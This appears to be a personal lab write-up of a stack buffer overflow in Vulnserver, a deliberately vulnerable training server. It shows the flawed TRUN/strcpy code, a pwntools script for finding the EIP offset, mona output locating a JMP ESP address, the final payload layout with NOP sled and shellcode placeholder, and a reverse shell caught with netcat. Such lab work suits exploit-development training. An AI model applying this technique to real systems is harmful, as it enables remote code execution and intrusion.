


# Vulnserver
References: 
- https://github.com/stephenbradshaw/vulnserver
  
```bash
┌──(kali㉿kali)-[~/Documents/bof/software]
└─$ nc 192.168.34.148 9999
Welcome to Vulnerable Server! Enter HELP for help.
HELP
Valid Commands:
HELP
STATS [stat_value]
RTIME [rtime_value]
LTIME [ltime_value]
SRUN [srun_value]
TRUN [trun_value]
GMON [gmon_value]
GDOG [gdog_value]
KSTET [kstet_value]
GTER [gter_value]
HTER [hter_value]
LTER [lter_value]
KSTAN [lstan_value]
EXIT
EXIT
GOODBYE
```

## Identify vulnerability
Vulnserver has numerous vulnerabilities. In this instance, the one I have identified is a lack of proper length checking when copying the argument to TRUN into a buffer using strcpy().
:
```c
Var1 = _strncmp(pcStack20,"TRUN ",5);
	if (iVar1 == 0) {
    pcStack1376 = (char *)_malloc(3000);
    _memset(pcStack1376,0,3000);
    iStack1052 = 5;
    while (iStack1052 < iStack16) {				// iStack16 = 0x1000 or 4096, so TRUE
    	if (pcStack20[iStack1052] == '.') {		// Condition TRUE on "TRUN ."
            _strncpy(pcStack1376,pcStack20,3000);
            vuln(pcStack1376);
            break;
        }
```
Inside function vuln():
```c
void __cdecl vuln(char *param_1)

{
  char local_7dc [2008];
  
  _strcpy(local_7dc,param_1);
  return;
}
```
This function copies a string with a potential size of 3000 bytes into a buffer which is only designated for 2008 bytes.
Sending 3000 bytes to the program in the form of "TRUN .<garbage>\*3000" does get an access violation.

## Exploitation

### 1. Control EIP
Send a cyclic string to the program, get the EIP value when the crash happens.
```python
io = start()

exploit = cyclic(3000)

info(io.recv(4096))
io.sendline(f'TRUN .{exploit}')
```
  

The access violation occurs at: `0x75616162`.
```bash
ali㉿kali)-[~/Documents/bof/vulnserver]
└─$ pwn cyclic -l 0x75616162                                   
2004
```
The EIP offset is 2004.

### 2. Sanity check EIP
Send the payload now as follows: [OFFSET (size 2004)[BBBB]
This results in a crash at `0x000ABBBB`. In this instance the offset is two bytes off. This shows the importance of sanity checking to ensure EIP is correct before proceeding. Retrying with an offset of 2006 hits `\x42424242` bytes.

### 3. Locate JMP instruction
Firstly check modules with `!mona modules`.
```
0BADF00D   !mona modules

           ---------- Mona command started on 2021-03-21 10:04:32 (v2.0, rev 613) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Module info :
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Base       | Top        | Size       | Rebase | SafeSEH | ASLR  | NXCompat | OS Dll | Version, Modulename & Path
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    0x62500000 | 0x62508000 | 0x00008000 | False  | False   | False |  False   | True   | -1.0- [essfunc.dll] (C:\WINDOWS\system32\essfunc.dll)
0BADF00D    0x71ab0000 | 0x71ac7000 | 0x00017000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [WS2_32.DLL] (C:\WINDOWS\system32\WS2_32.DLL)
0BADF00D    0x71a50000 | 0x71a8f000 | 0x0003f000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [mswsock.dll] (C:\WINDOWS\system32\mswsock.dll)
0BADF00D    0x77f10000 | 0x77f59000 | 0x00049000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [GDI32.dll] (C:\WINDOWS\system32\GDI32.dll)
0BADF00D    0x00400000 | 0x00407000 | 0x00007000 | False  | False   | False |  False   | False  | -1.0- [vulnserver.exe] (C:\Documents and Settings\Administrator\Desktop\vulnserver.exe)
0BADF00D    0x77dd0000 | 0x77e6b000 | 0x0009b000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [ADVAPI32.dll] (C:\WINDOWS\system32\ADVAPI32.dll)
0BADF00D    0x7c800000 | 0x7c8f6000 | 0x000f6000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [kernel32.dll] (C:\WINDOWS\system32\kernel32.dll)
0BADF00D    0x77c10000 | 0x77c68000 | 0x00058000 | False  | True    | False |  False   | True   | 7.0.2600.5512 [msvcrt.dll] (C:\WINDOWS\system32\msvcrt.dll)
0BADF00D    0x77fe0000 | 0x77ff1000 | 0x00011000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [Secur32.dll] (C:\WINDOWS\system32\Secur32.dll)
0BADF00D    0x7c900000 | 0x7c9af000 | 0x000af000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [ntdll.dll] (C:\WINDOWS\system32\ntdll.dll)
0BADF00D    0x71aa0000 | 0x71aa8000 | 0x00008000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [WS2HELP.dll] (C:\WINDOWS\system32\WS2HELP.dll)
0BADF00D    0x77e70000 | 0x77f02000 | 0x00092000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [RPCRT4.dll] (C:\WINDOWS\system32\RPCRT4.dll)
0BADF00D    0x662b0000 | 0x66308000 | 0x00058000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [hnetcfg.dll] (C:\WINDOWS\system32\hnetcfg.dll)
0BADF00D    0x7e410000 | 0x7e4a1000 | 0x00091000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [USER32.dll] (C:\WINDOWS\system32\USER32.dll)
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D
0BADF00D
0BADF00D   [+] This mona.py action took 0:00:00.266000
```
Most of these files have minimal protections, if any. Ideally we want a JMP ESP instruction which will allow the attacker to execute shellcode from the stack. Using mona, search for these instructions.
```
0BADF00D   [+] Command used:
0BADF00D   !mona find -s "\xFF\xE4" -m essfunc.dll

           ---------- Mona command started on 2021-03-21 10:07:49 (v2.0, rev 613) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : *
0BADF00D       - Only querying modules essfunc.dll
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D       - Treating search pattern as bin
0BADF00D   [+] Searching from 0x62500000 to 0x62508000
0BADF00D   [+] Preparing output file 'find.txt'
0BADF00D       - (Re)setting logfile find.txt
0BADF00D   [+] Writing results to find.txt
0BADF00D       - Number of pointers of type '"\xFF\xE4"' : 9
0BADF00D   [+] Results :
625011AF     0x625011af : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v-1.0- (C:\WINDOWS\system32\essfunc.dll)
625011BB     0x625011bb : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v-1.0- (C:\WINDOWS\system32\essfunc.dll)
625011C7     0x625011c7 : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v-1.0- (C:\WINDOWS\system32\essfunc.dll)
625011D3     0x625011d3 : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v-1.0- (C:\WINDOWS\system32\essfunc.dll)
625011DF     0x625011df : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v-1.0- (C:\WINDOWS\system32\essfunc.dll)
625011EB     0x625011eb : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v-1.0- (C:\WINDOWS\system32\essfunc.dll)
625011F7     0x625011f7 : "\xFF\xE4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v-1.0- (C:\WINDOWS\system32\essfunc.dll)
62501203     0x62501203 : "\xFF\xE4" | ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v-1.0- (C:\WINDOWS\system32\essfunc.dll)
62501205     0x62501205 : "\xFF\xE4" | ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: True, v-1.0- (C:\WINDOWS\system32\essfunc.dll)
0BADF00D       Found a total of 9 pointers
0BADF00D
0BADF00D   [+] This mona.py action took 0:00:00.313000
```
Note the lack of protections for these functions again.  
In this instance, the first instruction will work: `0x625011AF`.

### 4. Remove bad bytes
Next up, find bad bytes that cannot be used with the exploit. The null byte is a given for strcpy.  
In this instance, no other bytes need to be removed.

### 5. Sanity check JMP ESP
This is done by sending the payload: [OFFSET][JMP ESP][CC INTERRUPTS]

  

The interrupts get hit as expected.

### 6. Construct exploit
The final exploit is constructed as [OFFSET][JMP ESP][NOPSLED (32 bytes)][SHELLCODE]
```python
exploit = 'A' * 2006 + jmpesp + '\x90' * 32 + shellcode
```

### 7. Exploit
Run the exploit.
```bash
┌──(kali㉿kali)-[~/Documents/bof/vulnserver]
└─$ ./exploit.py  
[+] Opening connection to 192.168.34.148 on port 9999: Done
[*] Welcome to Vulnerable Server! Enter HELP for help.
```
Get a connection back.
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [192.168.34.138] from (UNKNOWN) [192.168.34.148] 1079
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\Administrator\Desktop>hostname
hostname
user-d0da1cb800

C:\Documents and Settings\Administrator\Desktop>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.34.148
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.34.2
```